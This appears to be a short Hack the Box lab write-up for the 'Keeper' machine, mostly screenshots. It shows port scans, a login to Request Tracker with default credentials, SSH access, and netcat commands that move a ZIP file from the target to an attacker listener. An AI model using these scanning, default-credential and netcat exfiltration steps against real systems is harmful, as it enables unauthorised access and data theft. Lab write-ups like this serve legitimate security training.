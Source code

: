 # Hack the Box - Keeper

```
rustscan -a 10.10.11.227 -r 0-65535 --ulimit 5000 
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/66939215-b494-486c-91cf-c24c5845167d)

```
nmap -sV -sC -A --min-rate 1000 10.10.11.227 -p 22,80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d9b95b35-fff7-471f-9257-09aa865cc3f9)

## HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f306fea0-644b-4415-b2d4-d5a5041ce776)

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ad643d0d-40bb-45e9-96a4-922da6d26d45)

Request Tracker Default Credentials
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cf2f5581-c7de-4cb1-8f59-a469adf05737)

Dashboard
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bc5655f3-6405-4a33-a712-a8941dcafc80)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4bb08dfa-b361-4be2-8d75-66e7c7f6f7c7)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/22b263dc-63ec-49df-baf0-d33b2a0af87c)

SSH
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b612ec6c-ad5c-4eab-8ffe-1278d26e3cf9)

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f50378d9-1cdc-4a82-9759-03579c745ba9)

Sending the ZIP file:
```
nc -N 10.10.14.61 9090 < RT30000.zip
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/93b150a1-152b-40f1-aa39-af4065c1e762)

Receiving the ZIP file:
```
nc -l -p 9090 > keeper.zip
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8b230c17-acee-4527-9086-cb9e3185991a)

Unzip:
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8ec9d78e-9d40-4420-b4cb-517a8f99204b)



